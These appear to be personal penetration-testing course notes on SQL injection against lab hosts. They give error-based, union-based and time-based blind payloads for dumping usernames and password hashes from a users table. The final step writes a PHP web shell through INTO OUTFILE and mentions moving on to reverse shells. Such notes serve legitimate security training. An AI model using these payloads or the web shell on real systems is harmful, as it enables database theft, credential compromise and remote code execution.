 Always use `#` or `//` if `--` won't work as these are other commenting operator

Use this [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) for any SQLi payload or finding version etc.
# Error-based

to identify run command with `'`  so if it gives error then confirm it's SQLi

**Most basic payload**
```
offsec' OR 1=1 -- //
```

### First verify version
```
' or 1=1 in (select @@version) -- //
```

> [!NOTE]
> MySQL accepts both _version()_ and _@@version_ statements.

![[Pasted image 20240507123148.png]]

### try to retrieve info with error-based
```
' OR 1=1 in (SELECT * FROM users) -- //
```

![[Pasted image 20240507123335.png]]

This means that we should only query one column at a time

we can use this method here from [[Labs]] Retrieving multiple values within a single column

### Offsec way to get info
```
' or 1=1 in (SELECT password FROM users) -- //
```

![[Pasted image 20240507123759.png]]

```
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

![[Pasted image 20240507123826.png]]

# Union-based

when we have visual representation of our payload

### 2 rules
1. know columns
2. know datatypes supported by each column

we can determine columns with `ORDER BY` clause
```
' ORDER BY 1-- //
```

Do it until we get error. suppose if we get error at 6 then server have 5 columns

### First enum

```
%' UNION SELECT database(), user(), @@version, null, null -- //
```

Since we want to retrieve all the data from the _customers_ table, we'll use the percentage sign followed by a single quote to close the search parameter

![[Pasted image 20240507124757.png]]

database is not shown, which means 1st column is not supports string datatypes

```
' UNION SELECT null, null, database(), user(), @@version  -- //
```

![[Pasted image 20240507125003.png]]

### Second enum

We'll attempt to retrieve the _columns_ table from the _information_schema_ database belonging to the current database. We'll then store the output in the second, third, and fourth columns, leaving the first and fifth columns null.

```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```

![[Pasted image 20240507125140.png]]

we get to know about other field named password

```
' UNION SELECT null, username, password, description, null FROM users -- //
```

![[Pasted image 20240507125234.png]]

Got MD5
# Blind SQLi

```
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
```

```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
```


# Get RCE from MySQL with UNION based

### Upload webshell
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

**But first we need to determine number of columns by order by/null values and know data types**

```
IP/tmp/webshell.php?cmd=id
```

![[Pasted image 20240507174251.png]]

then we can use different reverse shells from revshells.com and get shell


